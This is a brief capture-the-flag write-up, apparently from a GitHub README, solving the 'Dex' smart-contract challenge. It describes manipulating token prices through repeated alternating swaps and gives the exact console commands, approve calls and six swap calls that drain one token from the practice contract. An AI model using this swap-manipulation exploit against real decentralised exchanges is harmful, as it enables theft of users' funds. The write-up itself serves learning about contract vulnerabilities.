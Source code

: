 ## Dex

1. We need to manipulate the market (the token prices), we can first send all of a single token to swap for another and then we can swap from token that we have to another and cycle it till we drain one of the tokens... again i watched d-squared even though i felt i could do this myself and that sped up my solution.

2. `instance` '0x0B6Ecf40A4873AD3976bbD5D3a7e2848efFfB5cD' => `t1 = await contract.token1()` '0x09968A5da63B54536f000Cb8ca84476139A9e1c0' => `t2 = await contract.token2()` '0x6a43B8182D1531DA7003c8F5EF69acE280D04851' here we are storing t1 and t2 in the console so that we can use that to swap more efficiently in next steps.

3. first add both the tokens in remix and get them using address and approve them steps => remix address at and `approve(instance, 500)` via token 1 and token 2 where as instance is the address of the challenge Dex contract that swaps/can transfer from your account... the approve of challenge fails because the challenge contract approves both the token's but with an extra parameter

4. Next steps will drain one of the tokens
   await contract.swap(t1, t2, 10)
   await contract.swap(t2, t1, 20)
   await contract.swap(t1, t2, 24)
   await contract.swap(t2, t1, 30)
   await contract.swap(t1, t2, 41)
   await contract.swap(t2, t1, 45)

5. success
